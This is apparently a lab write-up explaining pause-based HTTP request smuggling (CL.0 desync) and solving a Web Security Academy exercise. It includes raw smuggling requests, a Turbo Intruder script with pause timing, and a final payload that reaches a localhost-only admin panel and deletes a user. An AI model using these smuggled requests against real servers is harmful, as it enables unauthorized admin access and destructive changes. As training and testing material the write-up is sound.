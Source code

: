 There are many quite secure websites that can contain hidden desync vulnerabilities that can be revealed if you pause mid-request.

Servers usually are configured with a read timeout, and if they don't receive any more data for an amount of time, they treat the request as complete and issue a response. This regardless of how many bytes they were told to expect.

Pause based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse.

## Server-side pause-based desync

It is dependent on some conditions:
- Frontend must immediately forward each byte of the request to the backend rather than waiting until it has received the full request.
- Frontend must not time out requests before the backend.
- Backend must leave the connection open for reuse following a read timeout.

### Example

Let's consider a CL.0 request smuggling attack scenario:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Now, what happens if we send the headers, but pause before sending the body?

- Frontend forwards the headers to the backend, and waits for the remaining bytes.
- After some time, backend times out and sends a response, and now the frontend may or may not read this response and forward to us.
- We send the body, which has a request smuggling prefix.
- Frontend treats this as a continuation of the initial request and forwards this to the backend down the same connection.
- Backend has responded to the initial request, so now thinks that these bytes are another request.

### Testing for pause based CL.0

In Repeater, create a CL.0 request smuggling probe like the one above, send it to `Turbo Intruder`.

In `Turbo Intruder`'s Python editor, adjust the request engine configuration to the following options:

```text
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

Queue the request and add the following arguments to the `queue()` interface:

`pauseMarker` - A list of strings after which you want to pause.
`pauseTime` - pause in ms.

Queue an arbitrary follow-up request as normal:

`followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n' engine.queue(followUp)`

Be sure that you are logging all the responses:

```python
def handleResponse(req, interesting):
    table.add(req)
```

# Exploiting pause-based desync attacks

The frontend streamas requests to the backend, and the backend doesn't close hte connection after a timeout on some endpoints.

The goal is to identify a pause-based CL.0 desync vector, smuggle a request to the admin at `/admin` and delete the user `carlos`.

Find an on-site redirect, and in our case is `lab.com/resources` which redirects to `lab.com/resources/`

Install `Turbo Intruder` extension, and send his request to the Turbo Intruder.

Change the request to `POST` and add a smuggled request like in CL.0, that tries to access `/admin/`. Also don't forget to add `Connection: keep-alive`.

```http
POST /resources HTTP/1.1
Host: lab.net
Cookie: session =...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin/ HTTP/1.1
Host: lab.net
```

And modify the `Python` code part as follows:

```Python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```


In the first request we got a `302` and in the second there is a `401 Unauthorized` and `Admin interface only available to local users`.

In this case let's put `localhost` in the Host of the smuggled request.

And we're inside the admin panel, where it asks us for a username and there is a button to `Delete user`:

![Pasted_image_20250120145134](https://github.com/user-attachments/assets/fac0f421-647f-4bb7-8861-5bf6e46636f1)

But for that our smuggled request needs to be a `POST` and not a `GET`. In the `HTML` that was returned we got a lot of information such as `csrf, action`.

Now let's edit our smuggled request:

```http
POST /resources HTTP/1.1
Host: 0a4b00750429868981989d94007c001a.web-security-academy.net
Cookie: session=FpdxixgCl7dcLByFAvM9TGGuxbqjCn2q
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=KnKcB6Gamprqao6cSwbz2MzUMQ3CTpvq&username=carlos
```

Very important is the `Content-Length` as you need to calculate for both the body of the smuggled request which in this case is 53, and the complete body of the first request which is 171.

Then in the Python code, change the `pauseMarker`:

```python
...
engine.queue(target.req, pauseMarker=['Content-Length: 171\r\n\r\n'], pauseTime=61000)
...
```

This, because if we leave as before with `\r\n\r\n` then it will pause two times, and we have to differentiate between them.

Now send it, and the response to the second request is:

```http
HTTP/1.1 302 Found
Location: /
Set-Cookie: session=cQBLRASV9VznhaGMEnCibhhjLfieb8CL; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Server: Apache/2.4.52
Keep-Alive: timeout=120
Content-Length: 0
```

Meaning that the user `carlos` has been deleted, and the lab has been solved.
